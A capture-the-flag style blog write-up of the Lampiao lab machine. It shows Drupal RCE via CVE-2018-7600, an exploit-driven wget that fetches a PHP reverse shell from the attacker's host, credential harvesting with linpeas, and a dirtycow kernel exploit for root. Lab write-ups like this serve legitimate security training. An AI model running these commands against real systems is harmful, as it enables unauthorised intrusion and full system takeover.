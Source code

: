 ```yaml
---
layout: single
title: Lampiao - Proving grounds Play
date: 2023-06-13
classes: wide
header:
  teaser: /assets/images/linux.png
categories:
  - provinggrounds
  - infosec
tags:
  - provinggrounds
  - linux
  - drupal
  - dirtycow
  - kernel
  - easy
---
```


## Linux

![](/assets/images/linux.png)

This blog post is a writeup of the Lampiao machine from Proving grounds play.

### Summary
------------------
- The webserver has a vulnerable Drupal version to RCE.
- We access exploiting this vulnerability.
- We are able to find credentials which allows us to login with a higher privileged user than www-data.
- The Linux kernel version it's vulnerable to dirtycow.
- Exploiting this dirtycow vulnerability allows us to gain access as root user.

### Detailed steps
------------------

### Enumeration

There's a webserver, a SSH service and another interesting open port (1898) running on this box.

![nmap1](\assets\images\pg-play-lampiao\1.JPG)

Let's take a closer look at these ports with Nmap.
 ```
 nmap -A 192.168.201.48 -p 22,80,1898 -o nmap_lampiao.txt
 ```
![nmap2](\assets\images\pg-play-lampiao\2.JPG)

As we can see in the last picture, the 1898 port it's running an HTTP service. Nmap HTTP enum returns some interesting files as CHANGELOG.TXT

CHANGELOG.txt it's a common file in Drupal which shows the current version.
In this case the current version it's `7.54`.

![changelog](\assets\images\pg-play-lampiao\5.JPG)

### Explotation

`Drupal 7.54` it's vulnerable to a remote code execution as we can see in `CVE-2018-7600` --> https://www.drupal.org/sa-core-2018-002
To exploit this vulnerability I used the following python code --> https://github.com/pimps/CVE-2018-7600

The first step was to check the vulnerability. I successfully executed the exploit with `id` command.
 ```
 python3 drupa7-CVE-2018-7600.py http://192.168.201.48:1898 -c id
 ```

![exploit1](\assets\images\pg-play-lampiao\6.JPG)


Now, in order to gain access to the victim's machine, I uploaded a PHP revershell to the webserver.

Configuring the webshell:

![shell1](\assets\images\pg-play-lampiao\7.JPG)

After configuring the webshell, I opened an HTTP server on my Kali machine with python in my webshell directory:
 ```
 python3 -m http.server 443
 ```

To upload the webshell I used the python exploit to execute a wget command on the victim's machine:
 ```
 python3 drupa7-CVE-2018-7600.py http://192.168.201.48:1898 -c "wget http://192.168.45.177:443/php-reverse-shell.php"
 ```
![exploit2](\assets\images\pg-play-lampiao\8.JPG)


At this point, I was able to access to my webshell on victim's machine and capture the shell running a Netcat listener.
![shell2](\assets\images\pg-play-lampiao\10.JPG)

![shell3](\assets\images\pg-play-lampiao\9.JPG)


Having access to www-data user I was able to find the first flag:
![userflag](\assets\images\pg-play-lampiao\userf.jpg)




### Privilege scalation

In order to elevete my privileges I used Linpeas.sh --> https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Linpeas found the following files with an interesting credentials:
![creds](\assets\images\pg-play-lampiao\15.JPG)

This credentials allowed me to log in via SSH as "tiago" user
![kernel1](\assets\images\pg-play-lampiao\18.JPG)


Linpeas found a kernel vulnerability too:
```
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh
```

Kernel version:
![kernel2](\assets\images\pg-play-lampiao\13.JPG)

To exploit this vulnerability I downloaded the exploit code and compiled it with:
```
g++ -Wall -pedantic -02 -std=c++11 -pthread -o exploit 40847.cpp -lutil
```

After compiling, I ran the exploit with:
```
./exploit -s
```
![kernel3](\assets\images\pg-play-lampiao\13.JPG)

As we can see in the last picture, I was able to gain access to root user executing this kernel exploit.
Root access allowed me to find the last flag:
![kernel3](\assets\images\pg-play-lampiao\rootf.jpg)